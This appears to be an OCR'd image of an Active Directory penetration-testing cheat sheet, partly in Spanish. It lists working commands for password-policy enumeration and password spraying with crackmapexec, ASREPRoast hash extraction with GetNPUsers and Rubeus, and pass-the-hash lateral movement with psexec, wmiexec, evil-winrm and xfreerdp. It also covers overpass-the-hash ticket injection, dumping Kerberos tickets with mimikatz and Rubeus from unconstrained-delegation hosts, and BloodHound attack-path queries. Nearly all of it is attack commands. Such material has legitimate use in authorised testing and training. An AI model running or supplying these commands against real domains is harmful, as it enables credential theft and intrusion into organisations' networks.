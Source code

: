 - Get password policy

	- crackmapexec <IP> -u 'user' -p 'password' --pass-pol
	- enum4linx -u 'username' -p 'password' -P <IP>

- cme smb <dc-ip> -u user.txt -p password.txt --no-bruteforce # test user=password
- cme smb <dc-ip> -u user.txt -p password.txt # multiple test (carrefull of lock policy)

### ASREPRoast

- Get hash

	- python GetNPUsers.py <domain>/ -usersfile <usernames.txt> -format hashcat -outputfile <hashes.domain.txt>
	- Rubeus asreproast /format:hashcat

- Get ASREPRoastable users

	- Get-DomainUser -PreauthNotRequired -Properties SamAccountName
	- MATCH (u:User {dontreqpreauth:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p

## Movimientos Laterales

### pass the hash

- psexec.py -hashes ":<hash>" <user>@<ip>
- wmiexec.py -hashes ":<hash>" <user>@<ip>
- atexec.py -hashes ":<hash>" <user>@<ip> "command"
- evil-winrm -i <ip>/<domain> -u <user> -H <hash>
- xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>

### overpass the hash / pass the key (PTK)

- python getTGT.py <domain>/<user> -hashes :<hashes>

	- export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache

		- python psexec.py <domain>/<user>@<ip> -k -no-pass

- Rubeus asktgt /user:victim /rc4:<rc4value>

	- Rubeus ptt /ticket:<ticket>
	- Rubeus createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]

		- Rubeus ptt /luid:0xdeadbeef /ticket:<ticket>

### Unconstrained delegation

- Get tickets

	- privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
	- Rubeus dump /service:krbtgt /nowrap
	- Rubeus dump /luid:0xdeadbeef /nowrap

- Get unconstrained delegation machines

	- Get-NetComputer -Unconstrained
	- Get-DomainComputer -Unconstrained -Properties DnsHostName
	- MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
	- MATCH (u:User {owned:true}), (c:Computer {unconstraineddelegation:true}), p=shortestPath((u)-[*1..]->(c)) RETURN p
